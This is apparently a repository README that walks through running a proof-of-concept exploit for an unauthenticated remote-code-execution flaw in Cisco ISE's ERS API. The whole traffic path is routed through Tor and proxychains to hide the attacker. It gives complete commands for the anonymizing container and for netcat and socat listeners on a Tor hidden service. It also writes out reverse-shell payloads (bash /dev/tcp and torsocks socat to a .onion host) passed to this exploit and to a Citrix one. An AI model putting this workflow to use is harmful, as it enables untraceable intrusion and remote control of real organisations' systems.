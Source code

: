 ## CVE-2025-20281 Unauthenticated PoC - as an example

NOTE: Each exploit is different and might require other dependencies that will need to be installed during the build phase.

##

A minimal Python proof-of-concept that exploits the unauthenticated RCE in Cisco ISE’s ERS API (CVE-2025-20281) by injecting arbitrary shell commands into the `InternalUser` resource.  

> **Warning:** Only run against systems you own or have explicit permission to test.

### Features

- No authentication required  
- Supports two modes:
  - `--whoami` to run `whoami` on the target and display the HTTP response  
  - `--reverse` to spawn a bash reverse shell back to your listener
  
### Modify the url variable in script to the correct IP/Port

After conducting recon (see ttps/1_Recon/scanners) to find vulnerable Cisco ISE’s ERS API targets IP and Port, the next step would be to attempt exploitation.

```python
# line 15/16
#url = f"https://{target}:9060/ers/sdk#_"
url = f"https://{target}/ers/sdk#_"
#url = f"https://{target}:8443/ers/sdk#_"
```

### Build, Run, and test Tor/Proxychains

```bash
# change dns, using quad9 - change this to nameserver other than ISP
sudo mv /etc/resolv.conf /etc/resolv.conf.bak
sudo touch /etc/resolv.conf
echo -ne 'nameserver 9.9.9.9\nnameserver 149.112.112.112' | sudo tee -a /etc/resolv.conf

# build image
podman build -t <some_name> .

# runtime exploit with all tools needed to conceal ingress/egress
podman run -it --name <some_name> \
    --cap-add=net_admin \
    --device /dev/net/tun \
    -v /etc/resolv.conf:/etc/resolv.conf:ro \
    -p 127.0.0.1:8118:8118 -p 127.0.0.1:9050:9050 -p 127.0.0.1:9051:9051 \
    -d <some_name>

podman exec -it <some_name> /bin/bash

# verify traffic is routing through tor
curl --socks5 localhost:9050 --socks5-hostname localhost:9050 https://check.torproject.org/api/ip
curl --socks5 127.0.0.1:9050 --socks5-hostname localhost:9050 http://checkip.amazonaws.com/

# IDS hits from local interface to verify tor routing
ET TOR Known Tor Relay/Router (Not Exit) Node Traffic group 116 [**] [Classification: Misc Attack] [Priority: 2] {TCP} 89.58.41.156:143 -> 192.168.1.248:56096
ET TOR Known Tor Relay/Router (Not Exit) Node Traffic group 188 [**] [Classification: Misc Attack] [Priority: 2] {TCP} 148.113.183.0:9001 -> 192.168.1.248:59218
ET TOR Known Tor Relay/Router (Not Exit) Node Traffic group 516 [**] [Classification: Misc Attack] [Priority: 2] {TCP} 77.73.70.176:443 -> 192.168.1.248:45074
ET TOR Known Tor Relay/Router (Not Exit) Node Traffic group 606 [**] [Classification: Misc Attack] [Priority: 2] {TCP} 94.16.123.67:443 -> 192.168.1.248:37934

# verify proxychains
proxychains curl http://checkip.amazonaws.com/

# verify privoxy, you can also route your host browser through this container on tor
curl -Lx http://127.0.0.1:8118 http://checkip.amazonaws.com/
```
<p align="center">
<img src=".img/firefox-proxy.png" alt="reverse-shell" />
</p>

### Listener Example
##

<p align="center">
<img src=".img/rshell-example.png" alt="reverse-shell" />
</p>

```bash
# open shell
podman exec -it <some_name> /bin/bash

# set vars
LHOST=<your ip>
LPORT=<port for reverse shell>

## listening port examples
# basic
nc -lvnp $LPORT

# better
rlwrap nc -lvnp $LPORT
```

### Route Reverse Shell through Tor
##

<p align="center">
<img src=".img/architecture.png" alt="arch" />
</p>

```bash
### through tor

# open shell to set vars
podman exec -it <some_name> /bin/bash

####### line 107/108 - Dockerfile ########
# echo 'HiddenServiceDir /var/lib/tor/hidden_service/' >>/etc/tor/torrc ; \
# echo 'HiddenServicePort 4444 127.0.0.1:4444' >>/etc/tor/torrc ; \
LPORT=4444 # the port set in line 108
LHOST=$(cat /var/lib/tor/hidden_service/hostname)
RSHELL="socat file:$(tty),raw,echo=0 TCP-L:$LPORT"

# you can also run torproxy.sh script to change port
# Options (fields in '[]' are optional, '<>' are required):
#    -h          This help
#    -b \"\"       Configure tor relaying bandwidth in KB/s
#                possible arg: \"[number]\" - # of KB/s to allow
#    -e          Allow this to be an exit node for tor traffic
#    -l \"<country>\" Configure tor to only use exit nodes in specified country
#                required args: \"<country>\" (IE, "US" or "DE")
#                <country> - country traffic should exit in
#    -n          Generate new circuits now
#    -p \"<password>\" Configure tor HashedControlPassword for control port
#    -s \"<port>;<host:port>\" Configure tor hidden service
#                required args: \"<port>;<host:port>\"
#                <port> - port for .onion service to listen on
#                <host:port> - destination for service request

podman exec -it <some_name> bash -c '/usr/bin/torproxy.sh -s \"<port>;<host:port>\"'

# open seperate shell in term
podman exec <some_name> /bin/bash
$RSHELL # begin listener

# execute exploit in another shell
podman exec <some_name> /bin/bash

# cmd on target
# get tor hostname
echo $LHOST
a2w6cyja3wtgn5mzbvj4vgmypezg66dar2aw6ylbkwpfv7wmz3udsnid.onion
torsocks socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:a2w6cyja3wtgn5mzbvj4vgmypezg66dar2aw6ylbkwpfv7wmz3udsnid.onion:4444

# should get HTTP response back, after discovery probe
proxychains python3 CVE-2025-20281.py XXX.XXX.XX.XXX --whoami

# execute exploit to spawn a reverse shell
proxychains python3 CVE-2025-20281.py XXX.XXX.XX.XXX --reverse a2w6cyja3wtgn5mzbvj4vgmypezg66dar2aw6ylbkwpfv7wmz3udsnid.onion 4444

# another example different exploit
proxychains python3 exploit-citrix-xen.py -t XXX.XX.XXX.XXX -p XXXX -c "/bin/bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1"

# tor/socat would have to be on the target
proxychains python3 exploit-citrix-xen.py -t XXX.XX.XXX.XXX -p XXXX \
  -c "torsocks socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:a2w6cyja3wtgn5mzbvj4vgmypezg66dar2aw6ylbkwpfv7wmz3udsnid.onion:4444"
```

### Teardown
##
```bash
podman stop <some_name>
podman system prune -f
```

This concludes an example of how to route traffic through tor along with using proxychains when executing exploit testing.  

